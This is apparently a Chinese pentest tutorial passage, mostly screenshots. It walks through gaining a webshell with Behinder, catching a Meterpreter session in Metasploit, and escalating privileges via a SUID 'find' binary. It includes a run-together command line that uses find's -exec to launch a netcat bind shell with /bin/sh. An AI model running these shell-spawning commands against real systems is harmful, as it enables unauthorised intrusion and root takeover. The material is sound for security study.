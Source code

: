 

- 

```
参考利用:https://pentestlab.blog/2017/09/25/suid-executables/
```

- 
- 
- 
- 
- 

```
touch xiaodi
find xiaodi -exec whoami \;find xiaodi -exec netcat -lvp 5555 -e /bin/sh \;netcat xx.xx.xx.xx 5555
```



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawp2He740RUUQw2OM1efBPt6JvHQBtFUKjeMK15PQSic7pwZIpItqazeA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



使用冰蝎链接webshell

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawXRDBJp4T9N7Z7A7C0Vjv7oEuVfyVxCIPt8icjricq6Xib2ibbAgdhPA6Uw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



打开MSF启动监听,在冰蝎上选择反弹shell,选择Metepreter,在MSF上按照冰蝎显示出来的命令敲,点击给我连

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawSLR8hSbSMx0SpOL0zvKjLv2eYibHIpxIOUCnib3qlklib8uOyB9tVMsLw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



MSF上显示会话已连接,并且权限是www-data

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawiaCbEl0RToUeKBleHAGQe8a9BKsia8CYoW1Au3pkibDwj2DMHGM01UE9Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



可以将信息收集脚本先上传至MSF在上传到目标机,也可以通过冰蝎的文件管理系统

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawQaIicIspJf9c7sriabSnVROFRDMLnLL5fSgBLSz043CiaUKKokbwvtLeA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawhcCeQaYt0aLowpJmAJzVgH7Mia2TTaEicDSAfyA4iafJGuThkY79MV9FQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw9q114Qlf9tFKicgXkNHvrByuFQ8usdmKF6dicjVWuje39qGJkCE8H4xg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

查看以下的信息看是否有SUID提权的可能

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawEah9KbDeD8l7zlCZ1bNEJuPXyRHYvKOZGcgkQibKvV0Kxg03ygAJpBQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



看到有一个find,有SUID提权

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawrWfge3yploicb7aBSBibbKVdmmPIs92RX5AcwibH8icR56zP2AXubdT2OQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
